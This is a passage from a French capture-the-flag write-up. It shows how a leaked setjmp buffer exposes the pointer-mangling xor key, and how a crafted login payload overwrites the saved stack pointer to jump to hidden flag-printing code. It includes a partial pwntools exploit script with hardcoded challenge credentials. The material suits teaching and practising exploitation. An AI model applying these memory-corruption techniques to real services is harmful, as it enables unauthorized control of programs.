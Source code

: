 Au moment de la sauvegarde, `r12 = 0x0000555555555110` qui est l'adressde `_start` et `rsp` contient la sauvegarde de `rip` pour l'appel à `setjmp` soit `-` (l'instruction suivante à l'appel)

```python
tip = 0x000055555555531f-0x0000555555555110 #0x20f
```

Ainsi `save(rsp) = save(r12)+tip`

Et la clé du xor : `k = ror(save(rsp),0x11) xor (save(r12)+tip)`

#### Exploit

Pour l'exploitation nous pouvons maintenant :
- nous connecter avec `login` + `password`
- appeler `2: Get cookie` qui va gentillement nous afficher le contenu de l'environnement sauvegardé par `setjmp`
- retrouver la clef du xor
- nous reconnecter une nouvelle fois, mais en ajoutant un payload au login pour écraser l'environnement sauvegardé, et notamment la sauvegarde de `rsp` pour la remplacer par l'adresse du code inutilisé permettant d'afficher le flag.

L'exploit complet : [exploit.py](files/exploit.py)

```python
  tip_1 = 0x55555555531f
  tip_2 = 0x555555555110
  tip_offset = tip_1 - tip_2

 offset_open = 0x555555555595-tip_1


 login = b'admin'
 pwd = b'MySeCr3TP4$$W0rd'

 r.recvuntil(b'>> ')
 r.send(b'1')
 r.recvuntil(b'>> ')
 r.send(login)
 r.recvuntil(b'>> ')
 r.send(pwd)
 r.recvuntil(b'>> ')
 r.send(b'2')

 sleep(0.5)
 cookie = parse_cookie(r.recv())
 lcookie = list_cookie(cookie)
 lucookie = [u64(c) for c in lcookie]

 xored_cookie = xor(cookie, b'\x77' * len(cookie))
 l_xored_cookie = list_cookie(xored_cookie)
 lu_xored_cookie = [u64(c) for c in l_xored_cookie]

 hex_cookie(lcookie)

 k = rightRotate(lucookie[7], 17)
 k = hex(k)[-16:]
 k = int(k,16)
 print(f"key : {hex(k)}")

 tip = lucookie[2]
 tip += tip_offset

 k = xor(p64(tip),p64(k))


 open = rightRotate(lucookie[7], 17)
```